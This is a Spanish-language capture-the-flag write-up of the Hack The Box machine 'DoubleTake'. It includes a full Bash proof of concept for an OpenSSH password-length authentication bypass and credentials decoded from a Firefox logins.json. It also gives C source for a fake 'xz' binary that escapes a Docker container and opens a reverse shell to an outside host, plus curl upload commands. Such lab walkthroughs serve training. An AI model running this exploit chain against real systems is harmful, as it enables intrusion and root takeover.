








---

# Descripcion

DoubleTake es una máquina Linux de dificultad fácil de Hack The Box que pone a prueba nuestros conocimientos sobre explotación de vulnerabilidades y escalada de privilegios. Durante el recorrido aprovecharemos un bypass de autenticación en OpenSSH mediante SSHole (CVE-2026-123158) para conseguir acceso inicial. Posteriormente, recuperaremos credenciales almacenadas en Firefox y explotaremos una vulnerabilidad de Docker (CVE-2026-41567) para escapar del contenedor y obtener acceso como root en el sistema anfitrión.

---

# Enumeracion

## Nmap

> Comenzamos realizando un escaneo de todos los puertos TCP para identificar los servicios expuestos en la máquina.

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.205.72

Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-13 01:45 +0100
Initiating SYN Stealth Scan at 01:45
Scanning 10.129.205.72 [65535 ports]
Discovered open port 22/tcp on 10.129.205.72
Discovered open port 80/tcp on 10.129.205.72
Completed SYN Stealth Scan at 01:45, 11.40s elapsed (65535 total ports)
Nmap scan report for 10.129.205.72
Host is up (0.042s latency).
Not shown: 65528 closed tcp ports (reset), 5 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.48 seconds
           Raw packets sent: 66182 (2.912MB) | Rcvd: 65530 (2.621MB)
```

> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para obtener información más detallada sobre los servicios y sus versiones.

```bash
$ nmap -p22,80 -sC -sV 10.129.205.72

22/tcp open  ssh     OpenSSH 10.6 (protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Site doesnt have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 UNAUTHORIZED\x0D
|_  Basic realm=Zentara
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

## Web

> También utilizamos WhatWeb para identificar las tecnologías empleadas por el servidor web.

```bash
$ whatweb http://10.129.205.72

http://10.129.205.72 [401 Unauthorized] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.205.72], WWW-Authenticate[Zentara][Basic], nginx[1.24.0]
```

> Comprobamos que no tenemos acceso directo a la aplicación web, ya que está protegida mediante autenticación HTTP Basic. Por otro lado, observamos que el servidor SSH utiliza OpenSSH 10.6. Vamos a investigar si existe alguna vulnerabilidad que afecte a esta versión.

# Shell como alpine

## CVE-2026-123158

> Encontramos una vulnerabilidad que permite realizar un bypass de autenticación y obtener acceso a un usuario sin conocer su contraseña legítima.

> [!NOTE]
> **CVE-2026-123158 (SSHole)**
>
> Se trata de una vulnerabilidad de bypass de autenticación que afecta a OpenSSH en sistemas Linux que utilizan `musl libc` sin PAM, como determinadas instalaciones de Alpine Linux.
>
> El problema se produce porque `crypt()` devuelve `*` cuando recibe contraseñas superiores a 256 bytes, debido a un límite interno. OpenSSH compara posteriormente este resultado con el campo de contraseña almacenado en `/etc/shadow`, que también puede contener `*` para representar cuentas bloqueadas.
>
> Al coincidir ambos valores, la autenticación puede completarse sin conocer la contraseña legítima, permitiendo obtener acceso remoto no autorizado.

> Observamos que Alpine Linux se encuentra entre los sistemas afectados. Buscando información adicional, encontramos una publicación de Alpine Linux donde se reporta esta vulnerabilidad.

```text
https://alpinelinux.org/posts/2026-11-05-openssh-password-authentication-bypass/
```

> En esta publicación se indica que el usuario `alpine`, presente por defecto en determinados entornos, está afectado por esta vulnerabilidad.
>
> A continuación, buscamos un PoC (*Proof of Concept*) para SSHole y encontramos el siguiente repositorio:

```text
https://github.com/oz9un/sshole
```

> El repositorio contiene dos implementaciones del exploit: una desarrollada en Python y otra en Bash. En este caso, utilizaremos la versión de Bash.

> [!NOTE]
> El código de este script pertenece íntegramente al autor del repositorio de GitHub.

```bash
#!/bin/sh
# *sshole PoC using only the stock OpenSSH client.
# usage: ./attack.sh HOST PORT USER
# One connection, two password prompts: "wrong", then 300 x 'A'. Prints `id` on success.
set -u
host=${1:?host} port=${2:?port} user=${3:?user}
state=$(mktemp -u)
helper=$(mktemp)
cat >"$helper" <<'EOF'
#!/bin/sh
# first prompt: a throwaway wrong password; every later prompt: 300 x 'A'
if [ -e "$ASKPASS_STATE" ]; then printf 'A%.0s' $(seq 300); echo; else : >"$ASKPASS_STATE"; echo wrong; fi
EOF
chmod +x "$helper"
export ASKPASS_STATE="$state" SSH_ASKPASS="$helper" SSH_ASKPASS_REQUIRE=force DISPLAY=:0
# setsid only matters for ssh < 8.4 (no SSH_ASKPASS_REQUIRE); macOS has none
${SETSID:-$(command -v setsid >/dev/null && echo "setsid -w")} ssh -F /dev/null -p "$port" \
  -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no \
  -o PreferredAuthentications=password -o PubkeyAuthentication=no \
  -o NumberOfPasswordPrompts=3 \
  "$user@$host" 'id' </dev/null
rc=$?
rm -f "$state" "$helper"
[ $rc -eq 0 ] && echo "RESULT: logged in as $user" || echo "RESULT: rejected (rc=$rc)"
exit $rc
```

> Vamos a probar el script utilizando el usuario `alpine` que hemos identificado anteriormente.

```bash
$ ./test.sh 10.129.205.72 22 alpine

Warning: Permanently added '10.129.205.72' (ED25519) to the list of known hosts.
Permission denied, please try again.
uid=1000(alpine) gid=1000(alpine) groups=1000(alpine)
RESULT: logged in as alpine
```

> Como podemos observar, conseguimos autenticarnos correctamente y ejecutar el comando `id`, obteniendo una sesión con el usuario `alpine`.
>
> Ahora vamos a intentar conseguir una shell interactiva. Para ello, nos conectaremos mediante SSH al usuario `alpine` y enviaremos una contraseña de 300 caracteres `A`, superando así el límite de 256 bytes relacionado con la vulnerabilidad.

```bash
python3 -c "print('A' * 300)"
```

> Es importante tener en cuenta que debemos enviar la contraseña dos veces para conseguir explotar correctamente la vulnerabilidad.

> [!NOTE]
> Para explotar **CVE-2026-123158 (_SSHole_)** enviando una contraseña larga (por ejemplo, `A * 300`), es necesario realizar **dos intentos consecutivos dentro de la misma conexión SSH**. El primer intento falla, mientras que el segundo permite obtener acceso.
>
> Este comportamiento está relacionado con una optimización interna de OpenSSH en el archivo `auth-passwd.c`, diseñada para mitigar ataques de enumeración de usuarios basados en diferencias temporales (*timing attacks*).



> Conseguimos obtener acceso al sistema utilizando el usuario `alpine`.

# Shell como bob

## Enumeración

> Una vez dentro del sistema, vamos a comenzar enumerando los usuarios existentes para identificar posibles cuentas interesantes.

```bash
$ cat /etc/passwd

root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/bin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
alpine:x:1000:1000::/home/alpine:/bin/sh
bob:x:1001:1001::/home/bob:/bin/sh
```

```bash
$ ls -la /home

total 20
drwxr-xr-x    1 root     root          4096 Nov 10 20:15 .
drwxr-xr-x    1 root     root          4096 Nov 10 20:17 ..
drwxr-sr-x    1 alpine   alpine        4096 Nov 13 21:12 alpine
drwxr-sr-x    1 bob      bob           4096 Nov 10 20:17 bob
```

> Encontramos otro usuario interesante, `bob`, que también tiene una shell habilitada. Antes de investigar esa cuenta, vamos a enumerar el directorio personal de nuestro usuario actual.

```bash
$ ls -la ~

total 20
drwxr-sr-x    1 alpine   alpine        4096 Nov 13 21:12 .
drwxr-xr-x    1 root     root          4096 Nov 10 20:15 ..
-rw-------    1 alpine   alpine         251 Nov 13 21:33 .ash_history
drwxr-sr-x    3 alpine   alpine        4096 Nov 10 20:15 .mozilla
```

> Encontramos un directorio llamado `.mozilla`. Vamos a investigar su contenido.
>
> Dentro encontramos un directorio `firefox` y, en su interior, otro llamado `zentara.default`. Vamos a comprobar qué archivos contiene este perfil de Firefox.

```bash
$ ls -la ~/.mozilla/firefox/zentara.default

total 88
drwxr-sr-x    2 alpine   alpine        4096 Nov 10 20:15 .
drwxr-sr-x    3 alpine   alpine        4096 Nov 10 20:15 ..
-rw-------    1 alpine   alpine       28672 Nov 10 20:15 cert9.db
-rw-------    1 alpine   alpine       36864 Nov 10 20:15 key4.db
-rw-r--r--    1 alpine   alpine         487 Nov 10 20:15 logins.json
-rw-------    1 alpine   alpine         456 Nov 10 20:15 pkcs11.txt
-rw-r--r--    1 alpine   alpine         182 Nov 10 20:15 prefs.js
-rw-r--r--    1 alpine   alpine           2 Nov 10 20:15 signedInUser.json
```

## Credenciales Leaked

> Revisando los archivos del perfil, encontramos uno especialmente interesante: `logins.json`. Este archivo almacena información relacionada con las credenciales guardadas en Firefox.

```json
{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "http://172.17.0.1",
      "httpRealm": "Zentara",
      "formActionOrigin": null,
      "usernameField": "",
      "passwordField": "",
      "encryptedUsername": "Ym9i",
      "encryptedPassword": "Q29ycmVjdEhvcnNlQmF0dGVyeVN0YXBsZQ==",
      "guid": "{a1b2c3d4-e5f6-7890-abcd-ef1234567890}",
      "encType": 0,
      "timeCreated": 1730000000000,
      "timeLastUsed": 1730900000000,
      "timePasswordChanged": 1730000000000,
      "timesUsed": 14
    }
  ],
  "potentiallyVulnerablePasswords": [],
  "dismissedBreachAlertsByLoginGUID": {},
  "version": 3
}
```

> Encontramos un nombre de usuario y una contraseña almacenados en formato `Base64`. Vamos a decodificar ambos valores para obtener las credenciales.

```text
user: bob
pass: CorrectHorseBatteryStaple
```

> Con las credenciales obtenidas, probamos a conectarnos mediante SSH utilizando el usuario `bob`. Conseguimos autenticarnos correctamente y obtener una nueva sesión.



# Shell como root

## Enumeracion web

> Tras enumerar el sistema, no encontramos nada especialmente interesante en esta cuenta. Por tanto, vamos a volver a la aplicación web que anteriormente no podíamos consultar debido a la autenticación HTTP Basic.
>
> Probamos a acceder utilizando las credenciales del usuario `bob`.



> Ahora tenemos acceso a una interfaz de tipo `chatbox` que permite interactuar con una IA.
>
> Si navegamos por las diferentes pestañas de la aplicación, encontramos varios detalles interesantes que pueden ayudarnos a continuar con la explotación.



> En primer lugar, identificamos que la aplicación está utilizando **Docker 29.5.0**.



> También descubrimos que la aplicación utiliza **Zentara 2.4.1**.

> Además, observamos que existe una funcionalidad que permite subir archivos para realizar despliegues (*deploy*).



> Por último, encontramos una sección llamada `API Docs`, donde podemos consultar los endpoints disponibles. Entre ellos, identificamos una llamada que permite realizar despliegues mediante la subida de archivos.



## Explotación de Docker - CVE-2026-41567

> Investigando la versión `Docker 29.5.0`, encontramos una vulnerabilidad que permite conseguir ejecución remota de comandos (RCE).

> [!NOTE]
> **CVE-2026-41567**
>
> Se trata de una vulnerabilidad de alta severidad, con una puntuación CVSS de **7.2**, que afecta al motor de contenedores **Docker** y al framework de código abierto **Moby**.
>
> El fallo permite ejecutar código arbitrario con privilegios de `root` en el host debido a un elemento de ruta de búsqueda no controlado (*CWE-427*).
>
> La vulnerabilidad afecta a versiones anteriores a **Docker Engine 29.5.1** y **Moby v2.0.0-beta.14**.
>
> El problema se produce cuando se sube un archivo comprimido (por ejemplo, en formato `xz` o `gzip`) a un contenedor. Durante el proceso, el daemon puede resolver incorrectamente los binarios de descompresión desde el sistema de archivos del contenedor en lugar de hacerlo desde el host.
>
> De esta forma, si la imagen del contenedor contiene un binario de descompresión malicioso, este puede ejecutarse con los privilegios completos del daemon.

> Estos serían los pasos de explotación en un escenario típico:

1. **Preparar una imagen maliciosa:** La víctima debe ejecutar un contenedor a partir de una imagen que contenga un binario de descompresión manipulado. Por ejemplo, un `/usr/bin/xz` o `/usr/bin/unpigz` modificado para ejecutar código arbitrario.

2. **Subir un archivo comprimido:** Posteriormente, la víctima debe subir un archivo comprimido al contenedor. Esto puede realizarse mediante el comando `docker cp` (utilizando una tubería) o a través del endpoint de la API `PUT /containers/{id}/archive`.

> Estos serían los pasos habituales de explotación. Ahora vamos a adaptarlos a esta máquina.
>
> Como tenemos acceso a la funcionalidad de despliegue de archivos del contenedor Docker, vamos a aprovecharla para introducir nuestro propio binario en la ruta `/usr/bin/xz`.
>
> Este binario ejecutará una reverse shell y, posteriormente, subiremos un archivo `.tar.xz` que actuará como desencadenante (*trigger*), provocando la ejecución del binario malicioso.

## Preparación del binario malicioso

- Creamos el script:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mount.h>

int main(int argc, char *argv[]) {
    mount("proc", "/proc", "proc", 0, NULL);
    chroot("/proc/1/root");
    chdir("/");
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.52/7777 0>&1", NULL);
    return 1;
}
```

- Compilamos el código:

```bash
$ gcc -static -o xz xz.c
```

- Creamos la estructura de directorios correspondiente a la ruta de `xz`:

```bash
$ mkdir -p usr/bin
```

- Copiamos el binario compilado dentro del directorio:

```bash
$ cp xz usr/bin/xz
```

- Comprimimos el archivo para generar el paquete que posteriormente subiremos:

```bash
$ tar cf revshell.tar usr/bin/xz
```

> Una vez preparado nuestro binario malicioso, vamos a proceder a subirlo utilizando el endpoint de despliegue de la API que hemos identificado anteriormente.

## Subida del binario y ejecución

- Subimos el archivo `xz` malicioso:

```bash
$ curl -u bob:CorrectHorseBatteryStaple -F 'archive=@revshell.tar' -F 'workspace=/' http://10.129.207.207/deploy

{"deployment":{"created_at":1794706575,"filename":"revshell.tar","id":"dep-742737","size":778240,"status":"success","workspace":"/"},"status":"success"}
```

- Nos ponemos a la escucha en el puerto `7777` para recibir la conexión:

```bash
$ nc -nvlp 7777
```

- A continuación, subimos el archivo `trigger` en formato `.tar.xz`, que provocará la ejecución del binario malicioso que acabamos de introducir:

```bash
$ curl -u bob:CorrectHorseBatteryStaple -F 'archive=@trigger.tar.xz' -F 'workspace=/' http://10.129.207.207/deploy
```

> ¡Conseguimos recibir una conexión y obtener una shell de `bash` como usuario `root` en el sistema host!

